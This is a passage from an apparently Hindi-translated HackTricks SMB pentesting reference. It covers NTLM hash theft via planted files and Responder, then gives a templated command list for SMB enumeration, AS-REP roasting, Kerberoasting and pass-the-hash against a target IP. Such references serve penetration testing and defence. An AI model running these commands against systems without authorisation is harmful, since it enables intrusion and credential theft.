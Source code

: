 ## NTLM Theft

SMB ट्रैपिंग के समान, लक्षित प्रणाली पर दुर्भावनापूर्ण फ़ाइलें लगाने (उदाहरण के लिए SMB के माध्यम से) एक SMB प्रमाणीकरण प्रयास को उत्तेजित कर सकती हैं, जिससे NetNTLMv2 हैश को Responder जैसे उपकरण के साथ इंटरसेप्ट किया जा सकता है। हैश को फिर ऑफ़लाइन क्रैक किया जा सकता है या [SMB relay attack](./#smb-relay-attack) में उपयोग किया जा सकता है।

[See: ntlm\_theft](../../windows-hardening/ntlm/places-to-steal-ntlm-creds.md#ntlm_theft)

## HackTricks Automatic Commands
```
Protocol_Name: SMB    #Protocol Abbreviation if there is one.
Port_Number:  137,138,139     #Comma separated if there is more than one.
Protocol_Description: Server Message Block         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for SMB
Note: |
While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. SMB stands for ‘Server Message Blocks’. Server Message Block in modern language is also known as Common Internet File System. The system operates as an application-layer network protocol primarily used for offering shared access to files, printers, serial ports, and other sorts of communications between nodes on a network.

#These are the commands I run in order every time I see an open SMB port

With No Creds
nbtscan {IP}
smbmap -H {IP}
smbmap -H {IP} -u null -p null
smbmap -H {IP} -u guest
smbclient -N -L //{IP}
smbclient -N //{IP}/ --option="client min protocol"=LANMAN1
rpcclient {IP}
rpcclient -U "" {IP}
crackmapexec smb {IP}
crackmapexec smb {IP} --pass-pol -u "" -p ""
crackmapexec smb {IP} --pass-pol -u "guest" -p ""
GetADUsers.py -dc-ip {IP} "{Domain_Name}/" -all
GetNPUsers.py -dc-ip {IP} -request "{Domain_Name}/" -format hashcat
GetUserSPNs.py -dc-ip {IP} -request "{Domain_Name}/"
getArch.py -target {IP}

With Creds
smbmap -H {IP} -u {Username} -p {Password}
smbclient "\\\\{IP}\\\" -U {Username} -W {Domain_Name} -l {IP}
smbclient "\\\\{IP}\\\" -U {Username} -W {Domain_Name} -l {IP} --pw-nt-hash `hash`
crackmapexec smb {IP} -u {Username} -p {Password} --shares
GetADUsers.py {Domain_Name}/{Username}:{Password} -all
GetNPUsers.py {Domain_Name}/{Username}:{Password} -request -format hashcat
GetUserSPNs.py {Domain_Name}/{Username}:{Password} -request

https://book.hacktricks.xyz/pentesting/pentesting-smb

Entry_2:
Name: Enum4Linux
Description: General SMB Scan
Command: enum4linux -a {IP}

Entry_3:
Name: Nmap SMB Scan 1
Description: SMB Vuln Scan With Nmap
```